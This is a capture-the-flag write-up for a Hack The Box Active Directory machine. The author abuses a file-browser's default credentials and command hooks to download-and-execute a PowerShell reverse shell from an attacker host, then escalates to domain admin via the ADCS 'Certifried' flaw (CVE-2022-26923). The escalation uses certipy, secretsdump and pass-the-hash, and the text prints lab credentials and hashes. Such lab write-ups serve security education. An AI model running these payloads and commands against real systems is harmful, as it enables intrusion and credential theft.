 Challenge Description:

A Certification Authority has declined our requests to access their data in order to identify a well known APT group. Unfortunately we do not have the jurisdiction to force them to cooperate. For this reason you are tasked with hacking their infrastructure in order to gather information.

Nmap found the following ports and includes the domain certification.htb and CFN-SVRDC01.certification.htb.

![image](https://user-images.githubusercontent.com/80063008/179422508-2e28dbf0-fea5-437d-b4e6-d606eacacbaa.png)


The page on port 80 is static. Nothing to see here.

![image](https://user-images.githubusercontent.com/80063008/179422512-77c3324e-0ea9-4383-b57c-a3e570248f99.png)


On port 8000 we have something more interesting. A file browser app.

![image](https://user-images.githubusercontent.com/80063008/179422514-95c76b4c-e33c-4abc-b120-ed5978575c51.png)


Which very nicely has default credentials of admin:admin

![image](https://user-images.githubusercontent.com/80063008/179422517-c701a477-aa1d-4a20-9227-31ee17e0a29c.png)


The global settings for filebrowser allows me to set commands to be executed on certain actions.

![image](https://user-images.githubusercontent.com/80063008/179422525-38f195ec-8bcc-4578-bf59-d543da0cfe84.png)


Actions like the ones listed below:

![image](https://user-images.githubusercontent.com/80063008/179422526-3ffb5510-e410-4e27-9201-5b6e2fc5e53d.png)


I used a powershell command to grab an obfuscated reverse shell from my box and run it. The link below is the obfuscated reverse shell I used.

https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/invoke_expression/obfuscated/invoke_obfuscation/powershell_reverse_tcp_obfuscated.ps1

![image](https://user-images.githubusercontent.com/80063008/179422528-d64b8718-8529-4b6b-b530-733e64177e9c.png)

The python script below just automates the process. I log in to grab a JWT cookie, set the command to trigger on file upload and then I upload something.

```python
import requests

loginURL = 'http://certification.htb:8000/api/login'
headers = {"Content-Type":"application/json"}
data = {"username":"admin","password":"admin","recaptcha":""}

r = requests.post(loginURL, headers=headers, json=data)
cook = r.text

cmdURL = 'http://certification.htb:8000/api/settings'
headers2 = {"X-Auth":f"{cook}","Cookie":f"auth={cook}", "Content-Type":"text/plain"}
data1 = '{"signup":false,"createUserDir":false,"userHomeBasePath":"/users","defaults":{"scope":".","locale":"en","viewMode":"mosaic","singleClick":false,"sorting":{"by":"","asc":false},"perm":{"admin":true,"execute":true,"create":true,"rename":true,"modify":true,"delete":true,"share":true,"download":true},"commands":[],"hideDotfiles":false,"dateFormat":false},"rules":[],"branding":{"name":"","disableExternal":false,"files":"","theme":"dark","color":""},"shell":[],"commands":{"after_copy":[],"after_delete":[],"after_rename":[],"after_save":[],"after_upload":["powershell IEX (New-Object Net.WebClient).DownloadString(\'http://10.10.14.72/shell.ps1\')"],"before_copy":[],"before_delete":[],"before_rename":[],"before_save":[],"before_upload":[]}}'
x = requests.put(cmdURL, headers=headers2,data=data1)

readme = 'http://certification.htb:8000/api/resources/test/README.txt?override=true'
data2 = 'data'
z = requests.post(readme, headers=headers2, data=data2)
```

And we have the server grabbing our file

![image](https://user-images.githubusercontent.com/80063008/179422534-85e57e78-b6e1-4ae7-afd7-a3b0f519fe1a.png)


And a reverse shell foothold. Checking who we are, it looks like we are daniel.morgan with no specific, easy to exploit privileges.

![image](https://user-images.githubusercontent.com/80063008/179422538-c66a7739-92fc-4bdd-841b-2e37b027aaef.png)


But we do get the user flag easily enough.

![image](https://user-images.githubusercontent.com/80063008/179422540-8938e249-1223-4f52-8ad2-b211d989f406.png)

HTB{Abu51ng_F34tur3s_4r3_fun}

In the powershell script we also find the user's credentials.

![image](https://user-images.githubusercontent.com/80063008/179422544-6e3cb701-57f4-46d4-8a45-adf83ebbee02.png)

daniel.morgan  
FDOnolk(naws)

We can confirm they are still valid with kerbrute.

![image](https://user-images.githubusercontent.com/80063008/179422755-93fcbef2-a569-4e82-a1b2-0a179c4c1425.png)


## ADCS exploit - PRIVESC ##

Based on the name of the challenge and the fact that I saw this exploit mentioned on twitter pretty often recently, I researched for quite  abit. Then I followed the blogpost below. This was after hours of going back and forth to a filebrowser.bat that the user had control over and WinPEAS told me that the administrator will run it when daniel logs in. Because of this I kept trying to forward port 5985 for WinRM but failed because of proper AV and firewall settings.

https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

We start the ADCS exploit by getting the certipy app installed.

```bash
git clone https://github.com/ly4k/Certipy  
cd Certipy  
virtualenv -p /usr/bin/python3.10 venv3  
source venv3/bin/activate  
python3 setup.py install  
```
On the github page of the tool we see we can use it to find the existing certificate templates.

![image](https://user-images.githubusercontent.com/80063008/179422551-e7d7a6c4-60e6-4559-9a35-520e474c676d.png)


Step 1: Find what certificate templates are available.
```bash
certipy find certification.htb/daniel.morgan:'FDOnolk(naws)'@certification.htb
```
![image](https://user-images.githubusercontent.com/80063008/179422552-fbe83cbf-c85d-4de2-bcef-16c3f7adbb22.png)

I had to make sure I had the CA name properly written down. It is mentioned in the certipy out as well.

![image](https://user-images.githubusercontent.com/80063008/179422572-526430db-28dd-4332-ab78-851c18bab106.png)

Step 2: Add a machine computer.
```bash
addcomputer.py 'CERTIFICATION.htb/daniel.morgan:FDOnolk(naws)' -method LDAPS -computer-name CFN-FAKE -computer-pass 'lazytitan'
```
![image](https://user-images.githubusercontent.com/80063008/179422582-efc846ab-7b0d-48a4-bcb6-4d01870cb2ae.png)

Step 3: Request a certificate for the above created machine account.
```bash
certipy req -ca certification-CFN-SVRDC01-CA -template Machine CFN-SVRDC01.certification.htb/CFN-FAKE$:lazytitan@CFN-SVRDC01.certification.htb
```
May need a few tries if getting an error about rpc time out..

![image](https://user-images.githubusercontent.com/80063008/179422587-da42aea0-2894-4a59-bac6-36b4d0359586.png)

Step 4: Authenticate with the pfx file to get the hash, just to check that it's good.

```bash
certipy auth -pfx cfn-fake.pfx 
```
![image](https://user-images.githubusercontent.com/80063008/179422591-45b0c7c9-8c80-4b04-aa72-7607b0415967.png)

Step 5: From the compromised low priv account, find the current DNSHostName just to check. Looks good.
```powershell
Get-ADComputer "CFN-FAKE" -Properties *|findstr DNSHostName
```
![image](https://user-images.githubusercontent.com/80063008/179422596-e662e91b-9b44-49ad-aa6e-67d7a3b5d258.png)

Step 6: Test to ensure you can change it.
```powershell
Set-ADComputer -Identity "CFN-FAKE" -DNSHostName 'test.certification.htb'
```
![image](https://user-images.githubusercontent.com/80063008/179422605-583ce263-4c4d-4fce-ae3c-dbec849c459f.png)

Step 7: Check the properties of the servicePrincipalName.
```powershell
Get-ADComputer "CFN-FAKE" -Properties *
```
![image](https://user-images.githubusercontent.com/80063008/179422615-d2244cb6-8c53-40e4-bfe2-0465459c709f.png)

Step 8: If it already has stuff in it, clear it using the syntax below.
```powershell
Set-ADComputer -Identity "CFN-FAKE" -servicePrincipalName $null
```
Step 9: put the Domain Controllers name instead.
```powershell
Set-ADComputer -Identity "CFN-FAKE" -DNSHostName 'CFN-SVRDC01.certification.htb'
```
![image](https://user-images.githubusercontent.com/80063008/179422626-e4faf5ef-8943-4ceb-b9ed-3d52ff363a38.png)

Step 10: request another certificate and this time, it should be for the DC.

![image](https://user-images.githubusercontent.com/80063008/179422628-aef87599-5646-41df-8ca4-a5ba1332a969.png)

Step 11: authenticate with the generated DC pfx file to get the NTLM hash.

![image](https://user-images.githubusercontent.com/80063008/179422631-532dfe8e-114d-455d-976e-26630cc0d61d.png)

Step 12: Use the DC hash above to dump the hashes using secretsdump.py
```bash
secretsdump.py 'certification.htb/CFN-SVRDC01$@CFN-SVRDC01.certification.htb' -hashes :d85512d5e138a972140986b9cc664d7a
```
![image](https://user-images.githubusercontent.com/80063008/179422634-6f50e2bc-dfec-4d9d-af39-b4ed63396891.png)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:30d9a71719214d675de29308730c0cb0:::

Step 13: Use wmiexec to pass the hash -- PROFIT.
```bash
wmiexec.py certification.htb/administrator@CFN-SVRDC01.certification.htb -hashes aad3b435b51404eeaad3b435b51404ee:30d9a71719214d675de29308730c0cb0
```
![image](https://user-images.githubusercontent.com/80063008/179422638-34bf265e-3b91-4f6e-837f-e8bd209142ff.png)



HTB{c3rtif1c4t35_c4n_8e_f4k3d}
